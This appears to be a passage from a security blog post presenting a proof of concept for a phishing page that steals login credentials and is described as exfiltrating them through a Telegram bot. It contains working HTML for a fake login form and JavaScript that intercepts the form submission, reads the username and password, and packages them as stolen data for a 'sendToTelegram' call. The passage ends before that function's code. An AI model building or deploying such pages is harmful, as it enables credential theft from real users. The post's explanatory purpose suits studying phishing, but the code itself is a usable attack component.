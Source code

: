 Phishing attacks remain one of the most prominent methods for cybercriminals to steal sensitive data. In this post, we'll break down how a malicious HTML page can be crafted to steal user credentials via a fake login page, using Telegram as the communication channel to exfiltrate the stolen data. We'll also explore how such an attack could work in practice with a Proof of Concept (PoC).     

### the attack: fake login page and Telegram bot integration

The attack starts with a fake login page that looks identical to legitimate websites. When a victim enters their credentials (`username` and `password`), the data is captured by malicious `JavaScript` running in the background and sent to the attacker via a Telegram bot using the Telegram Bot API.     

### practical example 

In this section, we'll look at how a malicious `HTML` page can be used to collect user credentials and exfiltrate the data via the Telegram API. The page will contain a fake login form designed to look like a legitimate site. Once the victim enters their credentials (`username` and `password`), the data is captured using `JavaScript` and sent to attacker via Telegram bot.     

First of all, HTML page contains a login form where the user is prompted to enter their `username` and `password`:    

```html
<div class="login-form">
  <h2>Login to Your Account</h2>
  <form id="loginForm" action="javascript:void(0);">
      <input type="text" id="username" name="username" placeholder="Username" required>
      <input type="password" id="password" name="password" placeholder="Password" required>
      <button type="submit">Login</button>
  </form>
</div>
```

The form doesn't submit the data normally. Instead, it is intercepted by JavaScript:     

```js
document.getElementById('loginForm').addEventListener('submit', function(event) {
  event.preventDefault(); // prevent actual form submission

  var username = document.getElementById('username').value;
  var password = document.getElementById('password').value;

  // prepare the payload with stolen data
  var payload = `Username: ${username}\nPassword: ${password}`;

  // send stolen data to Telegram
  sendToTelegram(payload);
});
```

As you can see, logic is pretty simple: when the user clicks `Login`, the JavaScript function captures the entered username and password. The data is then packaged into a message that mimics the format of stolen credentials:    

```js
var payload = `Username: ${username}\nPassword: ${password}`;
```

